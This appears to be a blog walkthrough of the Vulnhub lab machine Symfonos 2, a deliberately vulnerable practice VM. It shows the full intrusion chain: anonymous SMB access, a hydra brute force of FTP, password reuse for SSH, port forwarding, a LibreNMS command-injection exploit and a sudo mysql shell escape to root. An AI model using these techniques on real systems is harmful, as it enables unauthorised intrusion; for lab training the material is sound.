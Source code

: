 ```yaml
---
layout: PostSimple
date: 2020-03-10
title:     "Vulnhub - Symfonos 2"
tags: ['medium','ftp','port_forward','smb','hydra','sudo']
---
```


Today, We are going to pwn Symfonos 2 by Zayotic from Vulnhub

## Description:

```
OSCP-like Intermediate real life based machine designed to teach the importance of understanding a vulnerability. SHOULD work for both VMware and Virtualbox.
```
Download Link : <https://www.vulnhub.com/entry/symfonos-2,331/>


Lets Begin with our Initial Scan

## Nmap Scan Results:
```
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         ProFTPD 1.3.5
22/tcp  open  ssh         OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 9d:f8:5f:87:20:e5:8c:fa:68:47:7d:71:62:08:ad:b9 (RSA)
|   256 04:2a:bb:06:56:ea:d1:93:1c:d2:78:0a:00:46:9d:85 (ECDSA)
|_  256 28:ad:ac:dc:7e:2a:1c:f6:4c:6b:47:f2:d6:22:5b:52 (ED25519)
80/tcp  open  http        WebFS httpd 1.21
|_http-server-header: webfs/1.21
|_http-title: Site doesn't have a title (text/html).
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.5.16-Debian (workgroup: WORKGROUP)
MAC Address: 08:00:27:71:B2:8E (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: Host: SYMFONOS2; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h40m22s, deviation: 2h53m12s, median: 22s
|_nbstat: NetBIOS name: SYMFONOS2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.5.16-Debian)
|   Computer name: symfonos2
|   NetBIOS computer name: SYMFONOS2\x00
|   Domain name: \x00
|   FQDN: symfonos2
|_  System time: 2020-03-09T12:31:01-05:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-03-09T17:31:01
|_  start_date: N/A
```

Lot of Ports open, I started with ``smb``

## SMB :

We can use smbmap to see is there any files available.

 > smbmap - SMB enumeration tool

> -H HOST   		IP of host

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos2/1.png)

So ``anonymous`` is having ``log.txt`` in ``/backups`` which is readable.

There is a tool called ``smbclient`` which helps to access to the server.

> smbclient - ftp-like client to access SMB/CIFS resources on servers

I tried login with ``anonymous`` without password and it worked, Downloaded the ``log.txt`` to my machine.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos2/2.png)

``log.txt`` 

Its the ``smb`` configuration, the Interesting thing is 


shadow file is stored in /var/backups/shadow.bak
``
root@symfonos2:~# cat /etc/shadow > /var/backups/shadow.bak
``


The exact path of the SMB share 
```
[anonymous]
   path = /home/aeolus/share
   browseable = yes
   read only = yes
   guest ok = yes
```
There is also FTP Conf file 

``root@symfonos2:~# cat /usr/local/etc/proftpd.conf``

So FTP is running under the user ``aeolus`` not anonymous.
```
# Set the user and group under which the server will run.
User				aeolus
Group				aeolus
```

## FTP :

We know the FTP is running under ``aeolus`` user but we don't have the password for it, So I started bruteforcing it using ``hydra``.

>hydra - a very fast network logon cracker which supports many different services


>hydra -l aeolus -P /usr/share/wordlists/rockyou.txt ftp://192.168.1.101

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos2/3.png)


``aeolus : sergioteamo ``

Its the same ``log.txt`` we got from ``SMB``

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos2/4.png)

## SSH :

I used the same creds for ``ssh``

``aeolus : sergioteamo ``

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos2/5.png)

## Privilege Escalation :

Uploaded My Enumeration script to the machine and found some ports are listening to the machine.

```
================================================================( network )=====
[*] net000 Services listening only on localhost............................ yes!
---
tcp    LISTEN     0      80     127.0.0.1:3306                  *:*                  
tcp    LISTEN     0      128    127.0.0.1:8080                  *:*                  
tcp    LISTEN     0      20     127.0.0.1:25                    *:*                  
---
```

```
Port 3306 - MySQL
Port 25 - SMTP
Port 8080 - Webpage (Maybe)
```
I confirmed it by using ``curl``, There is a login page.
```
aeolus@symfonos2:/tmp$ curl localhost:8080
<!DOCTYPE html>
<html>
    <head>
        <meta charset="UTF-8" />
        <meta http-equiv="refresh" content="0;url=http://localhost:8080/login" />

        <title>Redirecting to http://localhost:8080/login</title>
    </head>
    <body>
        Redirecting to <a href="http://localhost:8080/login">http://localhost:8080/login</a>.
    </body>
</html>You have new mail in /var/mail/aeolus
```

We can't see port 8080 directly so We need to do [Port Forward](https://en.wikipedia.org/wiki/Port_forwarding) by doing this we can access the webpage from our machine.

For that press ``~C`` will open ssh interactive shell and then ``-L 8081:127.0.0.1:8080`` Which port forward 8080 to 8081.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos2/6.png)

``http://127.0.0.1:8081/``

It's ``LibreNMS`` Login page.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos2/7.png)

I searched for any exploits available and found this.

>https://www.rapid7.com/db/modules/exploit/linux/http/librenms_addhost_cmd_inject

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos2/8.png)

Now we got ``cronus`` user shell.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos2/9.png)

The First thing I did is ``sudo -l`` 

```
$ sudo -l
sudo -l
Matching Defaults entries for cronus on symfonos2:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User cronus may run the following commands on symfonos2:
    (root) NOPASSWD: /usr/bin/mysql
```
Looks like ``mysql`` can run as root without password.

I searched in [GTFOBins](https://gtfobins.github.io/gtfobins/mysql/)

> sudo mysql -e '\! /bin/sh'

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/symfonos2/10.png)



